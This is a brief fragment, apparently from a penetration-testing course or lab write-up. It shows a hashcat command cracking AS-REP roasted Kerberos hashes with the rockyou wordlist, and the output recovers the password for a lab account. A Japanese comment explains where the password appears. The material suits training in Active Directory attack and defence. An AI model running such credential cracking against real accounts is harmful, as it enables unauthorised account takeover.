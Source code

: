 ```bash
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
$krb5asrep$dave@corp.com:ae43ca9011cc7e7b9e7f7e7279dd7f2e$7d4c59410de2984edf35053b7954e6dc9a0d16cb5be8e9dcacca88c3c13c4031abd71da16f476eb972506b4989e9aba2899c042e66792f33b119fab1837d94eb654883c6c3f2db6d4a8d44a8d9531c2661bda4dd231fa985d7003e91f804ecf5ffc0743333959470341032b146ab1dc9bd6b5e3f1c41bb02436d7181727d0c6444d250e255b7261370bc8d4d418c242abae9a83c8908387a12d91b40b39848222f72c61ded5349d984ffc6d2a06a3a5bc19ddff8a17ef5a22162baade9ca8e48dd2e87bb7a7ae0dbfe225d1e4a778408b4933a254c30460e4190c02588fbaded757aa87a:Flowers1
...# 最後のコロンがパスワード
```

